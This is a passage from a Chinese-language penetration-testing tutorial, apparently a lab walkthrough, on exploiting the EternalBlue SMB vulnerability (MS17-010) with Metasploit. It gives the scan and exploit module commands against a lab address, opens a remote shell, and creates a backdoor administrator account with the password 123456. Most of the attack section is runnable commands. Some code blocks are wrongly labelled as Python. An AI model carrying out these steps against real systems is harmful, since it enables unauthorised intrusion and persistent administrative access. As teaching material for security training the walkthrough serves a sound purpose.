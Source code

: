 可以看到扫描结果如下，445端口存在可能利用的**永恒之蓝漏洞**。

##### 1.2  使用辅助模块进行服务扫描

（1）使用命令`search scanner`可以发现大量的扫描模块，有600多个模块

```python
search scanner
```

（2）使用`search`搜索与`SMB`服务相关的模块，搜索结果如下。使用的步骤与使用端口扫描模块时的基本相同

```python
search SMB
```

##### 1.3使用NMAP扫描

#### 2.漏洞探测与漏洞利用

##### 2.1 漏洞探测


（1）我们就拿永恒之蓝为例，在上述信息收集中，我们**发现445端口开启**，**代表着目标靶机运行SMB服务**，因此使用命令`search ms17_010`查询与永恒之蓝相关的可利用模块。

（2）端口开启不代表就存在永恒之蓝漏洞，因此我们还需要借助更具体的扫描模块来检验是否存在永恒之蓝漏洞，使用命令`use auxiliary/scanner/smb/smb_ms17_010`  进入永恒之蓝漏洞扫描模块，输入参数`show options`  查看所需参数。

（3）设置必要参数然后运行该模块，发现该主机可能存在`MS17_010`漏洞。

```python
search ms17_010
use auxiliary/scanner/smb/smb_ms17_010
show options
set rhosts 192.168.70.10
run
```

##### 2.2 漏洞利用

（1）我们经过漏洞发现已知该主机可能存在`MS17_010`漏洞，下一步就是进行漏洞利用。

使用`use exploit/windows/smb/ms17_010_eternalblue` 进入漏洞利用模块，输入参数`show options` 查看所需参数。


（2）设置`RHOSTS`参数，然后进行漏洞利用。


（3）`GetShell`。输入命令`shell`来让靶机反弹shel到当前窗口。


创建用户并提权为管理员。

创建用户：`net user user 123456 /add`

把创建的user用户加到管理员组：`net localgroup /add administrators user`

```python
use exploit/windows/smb/ms17_010_eternalblue
show options
set rhosts 192.168.70.10
run
shell

net user user 123456 /add
net localgroup /add administrators user
```
